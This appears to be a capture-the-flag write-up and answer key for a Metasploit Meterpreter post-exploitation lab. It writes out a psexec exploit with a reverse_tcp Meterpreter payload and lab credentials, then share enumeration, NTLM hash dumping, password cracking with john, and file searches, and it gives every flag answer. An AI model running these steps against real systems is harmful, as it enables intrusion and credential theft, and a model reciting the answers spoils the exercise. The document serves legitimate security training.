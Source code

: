 # Metasploit: Meterpreter

### Post-Exploitation Challenge
- What is the computer name?
Open msfconsole and, as suggested, use `exploit/windows/smb/psexec` --> `set payload payload/windows/meterpreter/reverse_tcp` --> `set SMBUser ballen` --> `set SMBPass Password1` --> `set LHOST your_IP` --> `set RHOSTS target_IP` --> `run`. <br />
![image](https://github.com/user-attachments/assets/2d213981-7576-4914-8be9-241316b95520) <br />
`ACME-TEST`
- What is the target domain? `FLASH`
- What is the name of the share likely created by the user? <br />
I personally moved in C:\Shares, but you could also background the session and use the `post/windows/gather/enum_shares` module. <br />
`speedster`
- What is the NTLM hash of the jchambers user? <br />
![image](https://github.com/user-attachments/assets/c8cea7ed-f745-4a53-be0f-cb6c394113fe)<br />
`69596c7aa1e8daee17f8e78870e25a5c`
- What is the cleartext password of the jchambers user? <br />
I used john: copy the line relative to jchambers from the 'hashdump' command into a file and run john: <br />
![image](https://github.com/user-attachments/assets/c9e49b73-91a6-4f8e-af55-2b93d1cb7e32) <br />
`Trustno1`
- Where is the "secrets.txt"  file located? (Full path of the file)<br />
Run `search -f secrets.txt` to find the answer: `c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt`
- What is the Twitter password revealed in the "secrets.txt" file? <br />
![image](https://github.com/user-attachments/assets/7b850aa0-392d-434c-b9f1-4a3190c176bc)<br />
`KDSvbsw3849!`
- Where is the "realsecret.txt" file located? (Full path of the file) <br />
Run `search -f realsecret.txt` to find where it's located: `c:\inetpub\wwwroot\realsecret.txt`
- What is the real secret? `The Flash is the fastest man alive`
